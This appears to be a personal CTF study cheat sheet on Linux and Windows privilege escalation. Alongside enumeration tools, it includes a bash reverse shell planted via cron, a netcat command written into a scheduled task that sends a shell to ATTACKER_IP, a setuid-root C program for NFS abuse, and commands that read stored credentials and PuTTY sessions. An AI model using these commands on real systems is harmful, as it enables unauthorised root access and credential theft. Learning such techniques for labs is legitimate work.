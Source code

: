 <font color= pink>Enumeration </font>is the first step you have to take once you gain access to any system. You may have accessed the system by exploiting a critical vulnerability that resulted in root-level access or just found a way to send commands using a low privileged account. 



## Commands
- /proc/version - to find about system.



## Some Automation tools
- LinPeas: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
- LinEnum: https://github.com/rebootuser/LinEnum
- LES (Linux Exploit Suggester): https://github.com/mzet-/linux-exploit-suggester
- Linux Smart Enumeration: https://github.com/diego-treitos/linux-smart-enumeration
- Linux Priv Checker: https://github.com/linted/linuxprivchecker



use CVE to exploit the kernel.
compile the exploit code and tranfer to victim using wget.
save code as .c and then compile it using gcc

gcc nfs.c -o nfs -w


use sudo -l to check which commands can be run without sudo


https://gtfobins.github.io/ 
- link to check how different commands can be used if given root access

reset; bash 1>&0 2>&0 getting root access


## Vulnerable binary
find / -type f -perm -04000 -ls 2>/dev/null


## Vulnerable getcap
getcap -r / 2>/dev/null

## CronJobs
Cron jobs are used to run scripts or binaries at specific times. By default, they run with the privilege of their owners and not the current user. While properly configured cron jobs are not inherently vulnerable, they can provide a privilege escalation vector under some conditions.

### Important for CTFS
check for /etc/crontab for cron jobs schedules
we could change the content of cronjob file to get reverse interactive shell
<br>
<font color= orange>bash -i >& /dev/tcp/ipaddress/port 0>&1</font>
<br>

<font color= orange>nc -lvp port to listen on incoming requests </font>




## PRivilege Escalation NFS
cat /etc/exports <br>
showmount -o victimip

mount -o rw victimip:/mountfolder /folder to be mounted


c script - <br>
int main()
{

    setgid(0);
    setuid(0);
    system("/bin/bash") ;
    return 0 ;
}

#### gcc nfs.c -o nfs -w



## Privilege escalation windows

C:\Unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml

C:\inetpub\wwwroot\web.config
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config

### command to check history 
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt


### saved windows credentials



to use unattended installations.

cmdkey /list<br>
runas /savecred /user:admin cmd.exe



putt session to get credential password
<br>
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s


## Scheduled task for binary exploitation
schtasks /query /tn vulntask /fo list /v
<br>
icacls c:\tasks\schtask.bat
<br>
echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat
<br>
 schtasks /run /tn vulntask

If our current user can modify or overwrite the "Task to Run" executable, we can control what gets executed by the taskusr1 user, resulting in a simple privilege escalation. To check the file permissions on the executable, we use icacls:


## adming access using running softwares
The software is vulnerable because it runs an RPC (Remote Procedure Call) server on port 6064 



